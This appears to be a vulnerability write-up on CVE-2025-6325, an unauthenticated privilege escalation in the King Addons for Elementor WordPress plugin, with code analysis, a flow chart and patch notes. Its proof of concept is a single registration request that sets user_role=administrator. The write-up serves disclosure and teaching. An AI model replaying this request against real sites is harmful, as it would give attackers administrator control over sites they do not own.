


<!--more-->

## CVE & Basic Info

An **Incorrect Privilege Assignment** vulnerability in the **King Addons for Elementor** plugin by **KingAddons.com** allows **Privilege Escalation**.
This vulnerability affects **King Addons for Elementor** from **unknown (n/a)** up to and including **version 51.1.36 (<= 51.1.36)**.

* **CVE ID**: [CVE-2025-6325](https://www.cve.org/CVERecord?id=CVE-2025-6325)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: <= 51.1.36
* **Patched Versions**: 51.1.37
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress King Addons for Elementor Plugin](https://wordpress.org/plugins/king-addons/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **King Addons for Elementor**:

  * `51.1.14` – **vulnerable**
  * `51.1.37` – **patched**
* **Elementor Plugin** → [**Elementor**](https://wordpress.org/plugins/elementor/)
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

> [!INFO]
>
> * As the name **King Addons for Elementor** suggests, the plugin requires **Elementor** to function. It provides multiple widgets and extended features for **Elementor** to support website interface building.
>   
> * The vulnerability is reported to affect versions from **unknown (n/a)** to **`51.1.36` and below**. However, in practice, this vulnerability has already been patched in some versions within the disclosed range, meaning not all listed versions are actually vulnerable.

## Analysis

When performing a code diff between the latest reported affected version (`v51.1.36`) and the patched version (`v51.1.37`)


After reviewing the changes in these files, I did not observe any modifications directly related to the **Privilege Escalation** vulnerability.

Next, I searched for the sink in version `v51.1.36`.



It can be seen that in `Login_Register_Form_Ajax.php`, the function `Login_Register_Form_Ajax::handle_register_ajax()` directly accepts the `$user_role` value from the request and assigns it to the `$user_data` array before calling `wp_insert_user()`.

This is the **sink** of the vulnerability, as untrusted input is passed directly, leading to **Privilege Escalation**.

The `handle_register_ajax()` function is registered as a callback for the following action hook:

```php
add_action(
    'wp_ajax_nopriv_king_addons_user_register',
    ['King_Addons\Widgets\Login_Register_Form\Login_Register_Form_Ajax', 'handle_register_ajax']
);
```

Where:

* `wp_ajax_nopriv_` is an action hook available to **all users**, including unauthenticated users.
* When a request is sent to `/wp-admin/admin-ajax.php` with `action=king_addons_user_register`, WordPress invokes `handle_register_ajax()`.
* `'King_Addons\Widgets\Login_Register_Form\Login_Register_Form_Ajax'` is related to the **Login/Register Form** widget of the **King Addons for Elementor** plugin.
  

=> When a user submits this registration form, the input data is **directly passed to `handle_register_ajax()`** for processing:


The function proceeds only if the **user registration** feature is enabled, which can be activated in the Admin Dashboard:


Upon further analysis of version **v51.1.36**, I noticed a comment indicating that the code below it is a **security patch** intended to prevent **Privilege Escalation**.


Comparing this with the list of publicly disclosed vulnerabilities of the **King Addons for Elementor** plugin:


* Only **one Privilege Escalation vulnerability** is listed.
* However, in version **v51.1.36**, this vulnerability has already been patched.

=> This means that **version v51.1.36 can no longer be exploited for this vulnerability**.
This is the reason why, in the [**Requirements**](#requirements) section, I require using version **v51.1.14**, as this version **does not include the patch** and still contains the vulnerability for analysis or testing purposes.



## Flow


flowchart TD
A["Unauthenticated User"]
--> B["Submit Register Form (King Addons Login/Register Widget)"]

B --> C["POST /wp-admin/admin-ajax.php"]
C --> D["action=king_addons_user_register"]

D --> E["wp_ajax_nopriv_king_addons_user_register"]
E --> F["Login_Register_Form_Ajax::handle_register_ajax()"]

F --> G{"User Registration Enabled?"}
G -- No --> H["Abort"]
G -- Yes --> I["Read POST parameters"]

I --> J["user_role taken directly from request"]
J --> K["Build user_data array"]

K --> L["wp_insert_user(user_data)"]
L --> M["WordPress assigns role from user_role"]

M --> N["User account created with elevated role"]


## Proof of Concept (PoC)

1. Submit the registration form and intercept the request using Burp Proxy
2. Add the `user_role` parameter with the value `administrator` to the request and send it:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost

action=king_addons_user_register&nonce=2d3fdafcc0&email=abc%40gmail.com&username=abc&password=Hacker111%3F&confirm_password=Hacker111%3F&widget_id=c03756f&recaptcha_secret_key=&recaptcha_score_threshold=0.5&redirect_after_register=&terms_required=no&enable_user_email=yes&user_email_subject=Welcome+to+%7Bsite_name%7D!&user_email_content=Hello+%7Buser_name%7D%2C%0A%0AWelcome+to+%7Bsite_name%7D!%0A%0AYour+account+has+been+successfully+created.%0A%0AUsername%3A+%7Busername%7D%0AEmail%3A+%7Buser_email%7D%0A%0AThank+you+for+joining+us!%0A%0ABest+regards%2C%0A%7Bsite_name%7D+Team&enable_admin_email=no&admin_email_address=&admin_email_subject=&admin_email_content=&enable_mailchimp_integration=no&mailchimp_api_key=&mailchimp_list_id=&mailchimp_double_optin=no&auto_login_after_register=yes&user_role=administrator
```


3. Log in using the newly created account


## Conclusion

The **CVE-2025-6325** vulnerability in the **King Addons for Elementor** plugin allows **Privilege Escalation** through the user registration form. The root cause is that the `user_role` value is taken directly from the request without validation before being assigned to a newly created account. Version **v51.1.14** still contains this vulnerability, while **v51.1.36** has already been patched and is no longer exploitable. Diff analysis between versions shows that the patch restricts allowed roles and prevents users from assigning dangerous roles such as `administrator`.

## Key Takeaways

* The vulnerability originates from **insufficient input validation (untrusted input)** in the AJAX registration handler.
* `wp_ajax_nopriv_` allows **unauthenticated users** to send requests and exploit the vulnerability.
* The patch restricts allowed roles (`subscriber`, `customer`) to **prevent privilege escalation**.
* When analyzing vulnerabilities, always compare **vulnerable vs. patched versions** to identify security changes.
* Using an **older version (v51.1.14)** may be suitable for analysis or PoC purposes, but it should never be deployed in a production environment.

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress King Addons for Elementor Plugin <= 51.1.36 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/king-addons/vulnerability/wordpress-king-addons-for-elementor-plugin-51-1-36-privilege-escalation-vulnerability)
